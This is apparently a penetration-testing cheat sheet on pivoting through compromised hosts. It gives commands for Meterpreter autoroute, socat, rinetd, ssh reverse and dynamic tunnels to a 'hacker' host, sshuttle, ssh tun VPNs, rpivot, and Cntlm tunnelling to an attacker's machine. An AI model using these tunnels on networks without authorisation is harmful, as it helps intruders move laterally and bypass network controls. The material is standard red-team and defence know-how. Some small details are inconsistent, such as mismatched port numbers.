 ## Pivoting

Pivoting is a process of moving from one compromised host to another.
It's a unique technique of using an instance (also referred as a "plant" or a "foothold") to be able to more around inside a network.

### Pivoting with Meterpreter

```bash
meterpreter > run autoroute -s 7.7.7.0/24
meterpreter > run autoroute -p
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
```

```bash
msf > use auxiliary/server/socks4
msf > run
```


### Pivoting with rinetd

```bash
apt install rinetd
cat /etc/rinetd.conf
systemctl start rinetd
rinetd -f
```

### Pivoting with socat

Redirecting 9000/tcp -> 127.0.0.1:8080/tcp:

```bash
socat tcp-l:9000,fork,reuseaddr tcp:127.0.0.1:8000
```

Binding on the given address:

```bash
socat tcp-l:9000,fork,reuseaddr,bind=192.168.0.102 tcp:127.0.0.1:8000
```

### Pivoting with ssh

Initiating a connection to the compromised host:

```bash
ssh -o “PasswordAuthentication=yes” -o "StrictHostKeyChecking=no" hacker@10.11.0.163 -R 3306:127.0.0.1:3306 
```

```bash
ssh hacker@10.11.0.163 -D 1080
```

```bash
ssh hacker@10.11.0.163 -L 445:192.168.1.1:445
```

Creating reverse connections from the compromised host (binding a dynamic proxy):

```bash
ssh gh0st@10.10.10.10 -D 127.0.0.1:9050 -R 127.0.0.1:9050:127.0.0.1:9050 -N -f
```

### Using sshuttle

Forwarding all traffic to the remote network:

```bash
sshuttle -r username@remotehost 0.0.0.0/0
```

Restricting the VPN to specific subnets rather than all network traffic:

```bash
sshuttle -r username@remotehost 10.0.0.0/8 172.16.0.0/16
```

Forwarding DNS queries:

```bash
sshuttle --dns -r username@remotehost 10.0.0.0/8 172.16.0.0/16
```


### Deploying VPN over ssh

Since openssh release 4.3 it is possible to tunnel layer 3 network traffic via an established ssh channel. This has an advantage over a typical tcp tunnel because you are in control of ip traffic. 
So, for example, you are able to perform SYN-scan with nmap and use your tools directly without resorting to `proxychains` or other proxifying tools. 
It’s done via the creation of **tun** devices on client and server side and transferring the data between them over ssh connection. 

This is quite simple, but you need root on both machines since the creation of tun devices is a privileged operation. 

These lines should be present in your `/etc/ssh/sshd_config` file (server-side):
```text
    PermitRootLogin yes
    PermitTunnel yes
```

Creating a pair of tun devices:

```bash
ssh user@host -w any:any
```

Configuring the client interface:

```bash
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0
```

Configuring the server interface:

```bash
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0
```

Enabling IP forwarding and NAT on the server:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```

Routing through the given gateway:

```bash
route add -net 10.0.0.0/16 gw 1.1.1.1
```

### Pivoting with redsocks

- https://crosp.net/blog/administration/install-configure-redsocks-proxy-centos-linux/

### Pivoting with rpivot

- https://github.com/artkond/rpivot 

This is a method of traversing NAT connections. This is a reverse socks proxy tool that allows you to tunnel traffic via socks proxy. 
As a result, a socks4 proxy service will be bound server side on port 1080.

Running on the server side:

```bash
python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0
```

Running on the server side:

```bash
python client.py --server-ip <ip> --server-port 9999
```

### Pivoting with Cntlm

- http://cntlm.sourceforge.net/ is the tool of choice for running any non-proxy aware programs over NTLM-proxy.

Basically this tool authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. 
This port bound does not require any authentication so you can use your tools directly (putty/ssh for example). It uses a config file for its operation. 

Here’s a bare-bones config example to forward port 443 (this port is most likely to be allowed through the proxy):

```text
    Username Alice
    Password [email protected]
    Domain CONTOSO.COM
    Proxy 10.0.0.10:8080
    Tunnel 2222:<attackers_machine>:443
```

Given you have ssh running on the remote host on port 443, you can launch ssh client (openssh/putty) and connect to local port 2222 to get access to the external machine.

Running the tool:

```bash
cntlm.exe -c config.conf
```

## socat KungFu

Sending data from stdIO to a TCP4 connection to port 80 of host www.domain.org:

```bash
echo "GET / HTTP/1.1\r\nHost: www.domain.org\r\n\r\n" | socat - TCP4:www.domain.org:80
```

## Serial ports to TCP

Create a tunnel between a serial port and a TCP socket:

```bash 
socat pty,link=/dev/virtualcom0,raw  tcp:192.168.254.254:8080
```
